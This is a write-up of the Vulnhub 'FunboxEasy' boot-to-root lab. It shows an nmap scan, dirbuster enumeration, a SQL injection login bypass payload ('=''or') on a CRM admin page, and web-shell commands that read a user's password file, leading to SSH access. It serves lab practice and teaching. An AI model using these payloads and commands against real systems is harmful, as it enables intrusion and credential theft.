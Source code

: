 ```yaml
---
layout: default
title : muzec - FunboxEasy Writeup
---
```


![f1](https://user-images.githubusercontent.com/69868171/99809925-55748680-2ad6-11eb-957f-57f5ade09327.PNG)


Boot2Root ! Easy going, but with this Funbox you have to spend a bit more time. Much more, if you stuck in good traps. But most of the traps have hints, that they are traps.
Vulnhub link to download FunboxEasy:- [FunboxEasy](https://www.vulnhub.com/entry/funbox-3,526/)

We always start with an nmap scan.....


```Nmap -sC -sV -oA nmap <Target-IP>```

```
Nmap scan report for 192.168.250.111
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 17 04:15:11 2020 -- 1 IP address (1 host up) scanned in 67.65 seconds
```

Ok let hit the robots.txt on port 80.

![f2](https://user-images.githubusercontent.com/69868171/99810866-acc72680-2ad7-11eb-979b-4937b8070eff.PNG)

Gym let try to access it with the IP/gym

![f3](https://user-images.githubusercontent.com/69868171/99811300-4ee70e80-2ad8-11eb-9787-eba0b03d4c55.PNG)

I spend a little time trying to get the right credentials but no luck so i decided to burst some directorys with dirbuster i think the robots.txt is the first rabbit hole lol.

![f4](https://user-images.githubusercontent.com/69868171/99813851-886d4900-2adb-11eb-919b-9052f4ea4ba8.PNG)

Another dir let check it out.

![f5](https://user-images.githubusercontent.com/69868171/99813965-aaff6200-2adb-11eb-977c-0dc2cfc69e38.PNG)

Small CRM Projects admin login page let try to check for some default credentials or maybe a vulnerable to get in.

![f6](https://user-images.githubusercontent.com/69868171/99814322-27924080-2adc-11eb-8aa4-2db2cebc2e91.PNG)

Description:
There is a SQL injection vulnerability in the /index.php page
which allows for an attacker to use the SQLi login bypass payload
'=''or' for both the username and password parameters, this allows
for any authenticated or low level user to login to the admin account.

![f7](https://user-images.githubusercontent.com/69868171/99814724-b1420e00-2adc-11eb-95b4-cbf388c66096.PNG)

Boom we are in but it just another rabbit hole 2 lol let enumerate more let go back to our dirbuster to check more dir.

![f8](https://user-images.githubusercontent.com/69868171/99814940-02520200-2add-11eb-8572-88d1cd2949f4.PNG)

The store dir look interesting let hit it.

![f9](https://user-images.githubusercontent.com/69868171/99815180-4ba25180-2add-11eb-836b-18967b4636c2.PNG)

Online book store by projectworlds pretty old also 2017 cool.

![f10](https://user-images.githubusercontent.com/69868171/99815965-60cbb000-2ade-11eb-9456-8a782ae8451e.PNG)

Let download and try the exploit.

![f11](https://user-images.githubusercontent.com/69868171/99816436-01ba6b00-2adf-11eb-8fc1-5f25d5a98821.PNG)

Boom finally we are in.

![f12](https://user-images.githubusercontent.com/69868171/99816828-77bed200-2adf-11eb-9f3c-a0ca49510e27.PNG)

```http://192.168.250.111/store/bootstrap/img/B8Wsi38YLp.php?cmd=ls -la /home```

![f13](https://user-images.githubusercontent.com/69868171/99817286-0f242500-2ae0-11eb-8219-7102924adefb.PNG)

```http://192.168.250.111/store/bootstrap/img/B8Wsi38YLp.php?cmd=ls -la /home/tony```

![f14](https://user-images.githubusercontent.com/69868171/99818458-9625cd00-2ae1-11eb-9526-836999c291d5.PNG)

```http://192.168.250.111/store/bootstrap/img/B8Wsi38YLp.php?cmd=less /home/tony/password.txt```

![f15](https://user-images.githubusercontent.com/69868171/99818871-10eee800-2ae2-11eb-82c8-4854720583cd.PNG)

Boom we have the ssh password also the username which is tony let hit ssh.

![f16](https://user-images.githubusercontent.com/69868171/99819349-ae4a1c00-2ae2-11eb-975f-e9b4c616bda9.PNG)

ssh we are in.



